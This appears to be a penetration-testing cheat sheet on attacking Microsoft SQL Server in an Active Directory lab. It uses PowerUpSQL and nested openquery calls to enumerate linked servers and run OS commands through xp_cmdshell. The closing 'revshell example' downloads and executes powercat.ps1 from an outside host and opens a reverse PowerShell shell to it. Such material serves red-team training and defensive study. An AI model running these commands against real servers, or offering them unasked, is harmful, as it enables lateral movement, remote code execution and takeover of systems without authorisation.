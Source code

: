 # MSSQL Servers

## Tools

[PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)includes functions that support SQL Server discovery, weak configuration auditing, privilege escalation on scale, and post exploitation actions such as OS command execution.

{% embed url="https://github.com/NetSPI/PowerUpSQL" %}

## Enumeration

```powershell
# SPN
Get-SQLInstanceDomain

# Check Access
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded 

# Information
Get-SQLInstanceDomain | Get-SQLServerInfo
```

### Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and Data Source Objects (OLE DB).

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures even across forest trusts.

<pre class="language-powershell"><code class="lang-powershell"><strong># find links to remote machine
</strong>Get-SQLServerLink -Instance dcorp-mssql
# Using HeidiSQL
select * from master..sysservers

# database links
Get-SQLServerLinkCrawl -Instance dcorp-mssql 
# Using HeidiSQL 
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')

</code></pre>

## Abuse

We can use links to execute commands across database links where sysAdmin is set to 1

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
# Using HeidiSQL 
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')

# revshell example
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex ((New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1;powercat -c 172.16.100.83 -p 443 -e powershell''));"' -QueryTarget eu-sql32

```

